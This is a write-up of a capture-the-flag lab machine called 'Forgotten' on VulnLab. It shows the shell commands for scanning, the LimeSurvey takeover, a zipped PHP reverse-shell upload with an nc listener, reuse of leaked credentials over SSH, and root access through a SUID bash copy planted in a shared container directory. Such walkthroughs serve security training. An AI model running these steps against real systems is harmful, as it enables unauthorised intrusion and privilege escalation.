

# Forgotten

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Forgotten** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.120.62
```



now let’s check the website running on port 80.


and we got forbidden so let’s now fuzz for directories.

```bash
feroxbuster --url http://10.10.120.62/
```


we got an endpoint named survey so let’s go to the website and see it


as we see there is a website named LimeSurvey running on the port 80 so let’s search for a public exploit for it.

Now let’s try to install it.


notice that we need a database to complete the installation.

so let’s create a database using a docker container

```bash
sudo docker run --name limesurvey -e MYSQL_ROOT_PASSWORD=remoremo -e MYSQL_DATABASE=limesurvey -e MYSQL_USER=lime -e MYSQL_PASSWORD=remoremo -p 3306:3306 -d mysql:latest
```


now let’s try to connect to the database.


now let’s continue to the next step


now let’s populate the database and set the admin password to remoremo


now let’s login as the administrator


after we got everything ready let’s search for a CVE in limeSurvey


and we got RCE let’s get it and edit the php reverse shell IP and port


now let’s make this reverse shell as a zip file

```bash
zip N4s1rl1.zip config.xml revshell.php
```


now let’s open a listener on our machine

```bash
nc -lvnp 1337
```


Now let’s run our exploit.

```bash
python3 exploit.py http://10.10.120.62/survey admin remoremo 80
```


now let’s check our listner


now let’s type hostname to check the environment 

```bash
hostname
```


and we are in a docker container so let’s run env

```bash
env
```


and we found limesurvey password so let’s connect to the user limesvc via ssh 

```bash
ssh limesvc@10.10.120.62
```


and we broke out of the container now let’s see the user flag.


Now let’s go back to our container and switch to root.


now in the container copy the bash and add the SUID binary to it.

```bash
cp /bin/bash .;chmod +s bash
```


now let’s go back to the main host and list the container files.

```bash
cd /opt/limesurvey ; ls -las
```


notice that we got a root with the SUID binary set to it so now let’s go and get root assess

```bash
./bash -p
```


now let’s go to the root directory and list the flag

```bash
cd /root ; ls -las
```


and I did it we got the root flag!


That’s it for the **Forgotten** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX